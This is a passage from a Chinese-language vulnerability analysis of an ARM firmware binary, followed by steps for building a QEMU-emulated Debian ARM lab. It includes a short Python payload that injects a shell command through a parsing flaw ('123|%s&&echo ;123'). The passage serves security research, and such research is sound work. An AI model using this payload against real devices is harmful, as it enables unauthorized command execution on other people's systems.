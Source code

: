也就是说，如果构造payload前两个字节是"\0x1\0x31"，就可以只让v21指针后移12位，再被sscanf函数检索、再作为后面`sub_91DC`函数的参数

所以只要在payload中再填充12位的字符

```python
payload = '\x01\x31'.ljust(12,'\x00')
```

然后就是我们要注入的代码

```python
payload += "123|%s&&echo ;123"%(command)
```

就可以执行command变量中的命令

>上图中需要注意分号；之后还需要填充字符，因为在使用sscanf函数进行分割后会判断分号后面的内容是否为空



#### qemu模拟实验环境

从[debian官网](https://people.debian.org/~aurel32/qemu/armhf/?C=M;O=A)下载模拟时需要用到的Debian ARM 系统的三个文件

```
vmlinuz-3.2.0-4-vexpress           2013-09-20 18:33  1.9M 
debian_wheezy_armhf_standard.qcow2 2013-12-17 00:04  229M 
initrd.img-3.2.0-4-vexpress        2013-12-17 01:57  2.2M
```

把三个文件放在同一个目录下

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjs7yfg086j31zg0923zq.jpg)

使用tunctl命令添加一个虚拟网卡，用于与虚拟机通信

```shell
apt install uml-utilities
tunctl -t tap1 -u root
```

使用ifconfig命令为添加的网卡配置IP地址

```
apt install net-tools
ifconfig tap1 10.10.20.1/24
```

启动qemu

```shell
qemu-system-arm -M vexpress-a9 -kernel vmlinuz-3.2.0-4-vexpress -initrd initrd.img-3.2.0-4-vexpress -drive if=sd,file=debian_wheezy_armhf_standard.qcow2 -append "root=/dev/mmcblk0p2 console=ttyAMA0" -net nic -net tap,ifname=tap1,script=no,downscript=no -nographic
```

用户名/密码 = root/root

进入虚拟机

![](https://tva1.sinaimg.cn/large/007S8ZIlly1gjs80wi2yjj31ae0dcjsa.jpg)
